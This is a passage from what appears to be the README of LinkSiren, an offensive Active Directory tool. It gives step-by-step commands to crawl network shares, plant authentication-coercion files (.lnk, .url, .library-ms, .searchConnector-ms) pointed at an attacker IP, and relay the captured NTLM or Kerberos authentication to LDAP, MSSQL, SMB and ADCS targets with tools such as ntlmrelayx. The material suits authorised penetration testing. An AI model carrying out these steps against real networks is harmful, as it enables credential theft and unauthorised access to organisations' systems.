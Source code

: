 2. Use LinkSiren to crawl the provided paths to the specified depth, searching for the ideal location to place a file that will coerce authentication. Resulting UNC paths are saved in `folder_targets.txt` in the current directory.
```bash
# Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary.
# You may also fine tune --max-concurrency to improve performance.
# Note: Specify '.' as the domain to log in using a local user account
linksiren identify --targets targets.txt [domain]/username[:password]
```

3. Use LinkSiren to deploy payloads to the locations identified in step 2. Optionally, specify a payload name and extension. The payload type (.searchConnector-ms, .library-ms, .lnk, or .url) will be selected automatically from the extension. Folders where payloads were successfully written are saved to `payloads_written.txt`. Use the hostname or DNS name of the attacker host and perform poisoning as necessary to get intranet zoned, as described in my blog post [DNS Hijacking: Say My Name](https://alittleinsecure.com/dns-hijacking-say-my-name/) and [theHackerRecipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#abuse), to coerce HTTP authentication.
```bash
linksiren deploy --attacker <attacker IP> [domain]/username[:password]
```

4. Let the hashes come to you and relay them as you see fit :)
    - Find LDAP(S) Targets: Use [LdapRelayScan](https://github.com/zyn3rgy/LdapRelayScan) or [NetExec's ldap-checker](https://www.netexec.wiki/ldap-protocol/check-ldap-signing) to identify LDAP services vulnerable to relay.
    - Find MSSQL Targets: Use [mssqlrelay](https://github.com/CompassSecurity/mssqlrelay) to identify MSSQL services that do not enforce encryption and are therefore vulnerable to relay. Also, consider combining this with information about Microsoft Configuration Manager to perform [TAKEOVER-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-1/takeover-1_description.md).
    - Find SMB Targets: Use [NetExec's SMB functionaltiy](https://www.netexec.wiki/smb-protocol/enumeration/smb-signing-not-required) to identify SMB services vulnerable to relay.
    - Find HTTP Targets: Use this [one-liner](https://x.com/Defte_/status/1795815420903002495) to check for ADCS ESC8 without authentication, or use NetExec/Certipy/Certify with authentication to identify ESC8 and other escalation paths as [described by TheHackerRecipes](https://www.thehacker.recipes/ad/movement/adcs/#recon) that may also be viable relay targets.
    - Use NTLMRelayx from [Impacket](https://github.com/fortra/impacket) to relay to identified targets with pcredz for hash capture on the attacker machine. I highly recommend `-socks` mode with NTLMRelayx.
    - [Krbjack](https://github.com/almandin/krbjack) or [Krbrelayx](https://github.com/dirkjanm/krbrelayx) could be used to relay Kerberos authentication to a machine if you can create a DNS record thanks to the a technique published by James Foreshaw and described in a [blog post](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx) from Synacktiv. Domain users may create new DNS records by default and creating new DNS records is often possible without authentication thanks to [DDSpoof](https://github.com/akamai/DDSpoof). Note that the target service for the relay attack must map to the same service class as the relayed authentication and the service must not implement signing, channel binding, or extended protection for authentication.

5. Cleanup the payload files when the attack is finished. LinkSiren will output messages about any previously written payloads that it isn't able to successfully delete.
```bash
linksiren cleanup [domain]/username[:password]
```
